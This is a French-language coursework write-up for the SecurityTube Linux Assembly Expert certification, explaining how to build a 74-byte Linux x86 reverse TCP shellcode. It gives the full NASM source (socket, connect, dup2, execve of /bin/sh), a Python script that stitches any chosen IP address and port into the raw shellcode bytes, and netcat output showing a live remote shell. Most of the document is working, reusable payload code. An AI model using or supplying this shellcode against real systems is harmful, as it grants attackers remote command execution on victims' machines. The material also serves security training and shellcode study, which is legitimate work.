 # Assignement 2 #

Dans le cadre du second exercice, il est demande de réaliser un shellcode permettant d'obtenir un shell distant.

L'idée ici est dans un premier temps de créer un socket puis d'établir une connexion en indiquant une adresse IP ainsi qu'un port. Les sorties standard stdin, stdout et stderr sont redirigées afin de pouvoir être utilisées une fois la connexion établie par un shell distant. 

## Création d'un socket ##
La principale référence bibliographique est la documentation des appels systèmes http://man7.org/linux/man-pages/man2/socketcall.2.html. L'appel socketcall est utilisé pour définir les actions sur les sockets en fonction du champ call. La valeur 1 indique que c'est la création d'un socket qui nous interesse. Il s'agit ici d'indiquer un domain, un type et un protocol. Nous prenons le protocol IP de type SOCK_STREAM et le domain IPPROTO_IP = 0.

```c
	xor ebx, ebx 			; ebx = 0
	mul ebx				; eax=ebx=edx = 0
	push ebx			; push 0 onto the stack
	inc ebx				; ebx = 1
	push ebx			; push 1 onto the stack
	push byte 0x2			; push 2 onto the stack
	mov ecx, esp			; set ecx to the address of our args
	mov al, 0x66			; syscall socketcall
	int 0x80			; make the syscall socketcall(socket(2,1,0))
```

## Création de la connexion ##
Nous procédons de la même manière pour créer la connexion en indiquant l'adresse IP et le port logique. Nous nous sommes appuyé sur la structure sockaddr afin de connaître les différents élément necessaires.

```c
	push 0x0101017f			; @Ip 127.1.1.1
	push dword 0x5c11 		; Port 4444
	inc ebx
    	push word bx     		; Ajout de AF_INET et pour eviter d'avoir un null byte
    	mov ecx, esp	
	push 0x10			; addrlen
	push ecx			; struct *addr
	push edx			; sockfd
	mov bl, 0x3			; connect call
	mov ecx, esp	
	mov al, 0x66
	int 0x80
```

## Redirection ##

Ici, nous redirigeons les 3 sorties vers le socket via l'appel système dup2.

```c
	xor ecx, ecx				; set ecx to 0
	mov cl, 0x2				; ecx = 2
_:
	mov al, 0x3f				; syscall dup2
	int 0x80
	dec ecx
	jns _

```

## Exécution du shell ##
nous allons pour cela utiliser execve, int execve(const char *filename, char *const argv[], char *const envp[]) afin de lancer un shell.
Il sera de la forme execve("/bin/sh", NULL, NULL).
Puis enfin, le shell(/bin/bash) est exécuté une fois la connexion établie.

```c
	xor ecx,ecx				; ecx = 0
	mul ecx					; eax = edx =ecx = 0
	push eax				; push 0 onto the stack
	push 0x68732f2f				; push //bin/sh
	push 0x6e69622f
	mov ebx, esp				; save esp into ebx
	mov al, 0xb		
	int 0x80				; make the syscall execve("/bin/sh", NULL, NULL)
```



## Code complet ##

```c
; SLAE - Assignment 2: Shell_reverse_Tcp shellcode (Linux/x86)
; Author: Alain Menelet 
; StudentID - SLAE-3763
; Tested on Ubuntu 16.14.03 LTS
; https://github.com/xophidia/Shellcode/blob/master/compile.sh
; Taille : 74 bytes



global _start

section .text

_start:

	; Création du socket
	; http://man7.org/linux/man-pages/man2/socketcall.2.html
	; int socketcall(int call, unsigned long *args)
	; int socket(int domain, int type, int protocol)
	
	; for domain we use AF_INET(0x2)
	; for type SOCK_STREAM(0x1)
	; for protocol IP (0x0)	

	xor ebx, ebx 			; ebx = 0
	mul ebx				; eax=ebx=edx = 0
	push ebx			; push 0 onto the stack
	inc ebx				; ebx = 1
	push ebx			; push 1 onto the stack
	push byte 0x2			; push 2 onto the stack
	mov ecx, esp			; set ecx to the address of our args
	mov al, 0x66			; syscall socketcall
	int 0x80			; make the syscall socketcall(socket(2,1,0))

	xchg edx, eax			; we need to save the result of socket function for later usage

	
	; création de la connexion
	; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
	; we save sockfd just before
	; sockaddr structure

	push 0x0101017f			; @Ip 127.0.0.1
	push dword 0x5c11 		; Port 4444
	inc ebx
    	push word bx     		; Ajout de AF_INET et pour eviter d'avoir un null byte
    	mov ecx, esp	
	push 0x10			; addrlen
	push ecx			; struct *addr
	push edx			; sockfd
	mov bl, 0x3			; connect call
	mov ecx, esp	
	mov al, 0x66
	int 0x80

	
	; redirection des flux via dup
	; nous allons rediriger les sorties standards vers notre socket
	; int dup2(int oldfd, int newfd);

	xor ecx, ecx
	mov cl, 0x2				; ecx = 2
_:
	mov al, 0x3f				; syscall dup2
	int 0x80
	dec ecx
	jns _
	

	; execve
	; execute un shell /bin/bash des la connexion réussie

	xor ecx,ecx				; ecx = 0
	mul ecx					; eax = edx =ecx = 0
	push eax				; push 0 onto the stack
	push 0x68732f2f				; push //bin/sh
	push 0x6e69622f
	mov ebx, esp				; save esp into ebx
	mov al, 0xb		
	int 0x80				; make the syscall execve("/bin/sh", NULL, NULL)

```

## Exécution ##

Nous utilisons comme dans le premier exercice le fichier test_shellcode.c avec les mêmes options de compilation.

Sur le premier terminal:
```
./test_shellcode
```

Sur le second terminal: 
```c
nc -l -p 4444 -v
pwd
/home/xophidia
```

## Améliorer la saisie de l'adresse IP et du port ##

Pour cette partie, nous utilisons un script python.

```python
#!/usr/bin/env python

import argparse
import struct

def main():
    parser = argparse.ArgumentParser(description="Reverse TCP Shell")
    parser.add_argument('--address', dest="addressIp", default=None, type= str, help="Put your address ip", required=True)
    parser.add_argument('--port', dest="port", default=4444, type=int, help="Put the port", required=True)
    args = parser.parse_args()

    ip = args.addressIp.split('.')
    port = args.port

    shellcode = ("\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x68"+
    struct.pack("!4B",int(ip[0]), int(ip[1]),int(ip[2]), int(ip[3]))+"\x66\x68"+struct.pack("!H",port)+"\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\xb3\x03\x89\xe1\xb0\x66\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80");


    print '"' + ''.join('\\x%02x' % ord(c) for c in shellcode) + '";'

if __name__=='__main__':
    main()

```

### Test ###

```c
./createShellcode.py --address 127.1.1.1 --port 1234
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x68\x7f\x01\x01\x01\x66\x68\x04\xd2\x43\x66\x53\x89\xe1\x6a\x10
\x51\x52\xb3\x03\x89\xe1\xb0\x66\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\x89\xca\x52\x68\x2f\x2f\x73\x68\x68
\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";
````

Nous recompilons comme lors de l'exemple précédent puis testons le tout.

```c
nc -l 127.1.1.1 -p 1234 -v
Listening on [127.1.1.1] (family 0, port 1234)
Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 40102)
id
uid=1000(xophidia) gid=1000(xophidia) groups=1000(xophidia),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

StudentID - SLAE-3763
